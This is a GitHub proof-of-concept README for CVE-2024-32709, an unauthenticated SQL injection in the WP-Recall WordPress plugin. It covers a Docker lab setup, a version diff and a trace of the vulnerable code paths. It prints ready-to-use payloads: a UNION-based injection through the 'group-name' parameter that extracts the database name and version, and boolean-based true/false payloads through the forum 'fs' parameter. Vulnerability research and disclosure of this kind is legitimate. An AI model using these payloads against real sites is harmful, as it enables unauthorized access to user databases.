# CVE-2024-32709-Poc
WP-Recall – Registration, Profile, Commerce & More <= 16.26.5 - Unauthenticated SQL Injection
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-recall/wp-recall-registration-profile-commerce-more-16265-unauthenticated-sql-injection

Build wordpress: docker-compose -f stack.yml up

wp-recall.16.26.5.zip: https://github.com/truonghuuphuc/CVE-2024-32709-Poc/blob/main/wp-recall.16.26.5.zip
wp-recall.16.26.6.zip: https://github.com/truonghuuphuc/CVE-2024-32709-Poc/blob/main/wp-recall.16.26.6.zip

Diff wp-recall.16.26.5 vs wp-recall.16.26.6
- File: wp-recall\add-on\groups\classes\class-rcl-groups-list.php (Add-on Groups) 
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/511b6a50-f3c1-46a1-9255-c17ca6a3db25)

- File: wp-recall\add-on\prime-forum\classes\class-prime-query.php (Add-on PrimeForum)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/17374412-1785-479a-935b-6dae5bd09628)

- File: wp-recall\add-on\rating-system\core.php (Add on Rating System)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/29caf464-9806-4629-a54f-ce23bdcfe91f)

Note: After install wp-recall Default Config
- Add-on Groups default: Inactive
- Add-on PrimeForum default: Inactive
- Add-on Rating System default: Active
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/a85b594d-8834-4d5e-903b-c437a672a672)


### Exploit Unauthenticated SQL Injection Add-on Groups (Require status: Active)
Step 1 File: wp-recall\add-on\groups\classes\class-rcl-groups-list.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/a17a621d-0d46-4a95-9956-07ca25c9af15)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/1dfbfa19-4892-4425-9030-60f2a45bebfe)

Step 2: Search Initialize the object with class `Rcl_Groups_List` with keyword "new Rcl_Groups_List("
- File: add-on\groups\shortcodes.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/403602b0-bcc8-48c0-bf78-67e3450a8e83)

Step 3: Search for functions that call the function rcl_get_grouplist
- File: add-on\groups\index.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/bcc8eb18-ac54-4661-a85c-6a0ba5d85ed7)
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/7ae255a2-3dfd-415d-8580-b93a42576d30)

### Payload: ``` <Host>/account/?user=1&tab=groups&group-name=p'+or+'%'='%'+union+all+select+1,2,3,4,5,6,7,8,9,10,11,concat("Database:",database(),0x7c,"Version:",version()),13--+- ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/1d12761c-291c-410f-a0f1-f627c902d3e5)

### Exploit Unauthenticated SQL Injection Add-on PrimeForum (Require status: Active)
Step 1 File: wp-recall\add-on\prime-forum\classes\class-prime-query.php => function setup_child_items()
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/c12fae0c-d071-4f90-b560-bb9959657a75)

Step 2: Search Initialize the object with class `PrimeQuery` with keyword "new PrimeQuery("
- File: add-on\prime-forum\index.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/4899cc05-e2e7-441e-8557-cd8b11654e71)

- File: wp-recall\add-on\prime-forum\classes\class-prime-query.php
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/c48f6aab-c32c-4c04-893f-77e2afc187a4)

### Exploit Boolean-based SQL injection
Payload condition true: ``` /forum/?fs=.%'+or+if(1=1,'%',1)=' ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/2ffe72eb-59c5-4a38-b817-2d6520632a01)

Payload condition false: ``` /forum/?fs=.%'+or+if(1=2,'%',1)=' ```
![image](https://github.com/truonghuuphuc/CVE-2024-32709-Poc/assets/20487674/3b43180d-dd15-4464-8b80-69110911028a)

### Exploit Add-on Rating System: (Comming Soon) ```[ratinglist days="{injection}"] ```
